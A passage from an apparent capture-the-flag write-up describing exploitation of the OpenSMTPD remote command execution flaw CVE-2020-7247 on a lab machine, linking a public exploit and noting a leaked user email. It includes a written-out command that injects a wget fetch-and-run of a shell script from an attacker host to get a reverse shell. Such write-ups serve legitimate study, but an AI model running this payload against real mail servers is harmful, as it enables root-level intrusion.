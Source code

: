 __[CVE-2020-7247](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247):__ smtp_mailaddr in smtp_session.c in OpenSMTPD 6.6, as used in OpenBSD 6.6 and other products, allows remote attackers to execute arbitrary commands as root via a crafted SMTP session, as demonstrated by shell metacharacters in a MAIL FROM field. This affects the "uncommented" default configuration. The issue exists because of an incorrect return value upon failure of input validation. __[Exploit](https://www.exploit-db.com/exploits/47984)__

only change requires in exploit script is `RCPT <email>`(a valid user email) which we found from squid leak `j.nakazawa@realcorp.htb`

![](screenshots/opensmtp-rce.png)

Getting reverse shell with python web server and wget.
```bash
proxychains python smtp-rce.py 10.241.251.113 25 'wget -q -O ss.sh 10.10.15.71/shell.sh;bash ss.sh'
```

![](screenshots/reverse-shell.png)


# Privesc:everything_kerberos

## kerberos token to ssh login
